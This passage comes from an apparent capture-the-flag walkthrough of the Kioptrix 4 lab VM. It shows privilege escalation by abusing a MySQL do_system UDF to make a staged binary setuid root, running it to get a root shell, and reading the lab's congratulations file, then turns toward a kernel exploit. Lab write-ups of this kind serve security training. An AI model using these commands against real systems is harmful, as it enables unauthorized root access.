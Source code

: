 `robert@Kioptrix4:/dev/shm$ ls -la suid-shell`

```
-rw-r--r-- 1 robert robert 15568 2020-01-10 19:58 suid-shell
```

And finally we'll use our command execution as root via MySQL to change the owner of this binary to `root` and also set the [sticky bit](http://www.filepermissions.com/articles/sticky-bit-suid-and-sgid) to allow `robert` to execute this binary with `root` privileges.

```
mysql> select do_system('chown root:root /dev/shm/suid-shell ; chmod 7775 /dev/shm/suid-shell');
+-----------------------------------------------------------------------------------+
| do_system('chown root:root /dev/shm/suid-shell ; chmod 7775 /dev/shm/suid-shell') |
+-----------------------------------------------------------------------------------+
|                                                                        8589934592 | 
+-----------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

`robert@Kioptrix4:/dev/shm$ ls -la suid-shell`

```
-rwsrwsr-t  1 root   root   15568 2020-01-10 19:58 suid-shell
```

`robert@Kioptrix4:/dev/shm$ ./suid-shell`

```
root@Kioptrix4:/dev/shm# id
uid=0(root) gid=0(root) groups=1002(robert)
root@Kioptrix4:/dev/shm# cat /root/congrats.txt 
Congratulations!
You've got root.

There is more then one way to get root on this system. Try and find them.
I've only tested two (2) methods, but it doesn't mean there aren't more.
As always there's an easy way, and a not so easy way to pop this box.
Look for other methods to get root privileges other than running an exploit.

It took a while to make this. For one it's not as easy as it may look, and
also work and family life are my priorities. Hobbies are low on my list.
Really hope you enjoyed this one.

If you haven't already, check out the other VMs available on:
www.kioptrix.com

Thanks for playing,
loneferret
```

# [](#header-2)Kernel Exploit

As is touched on in the `congrats.txt` file it's also possible to execute a kernel exploit on this machine to escalate privileges.
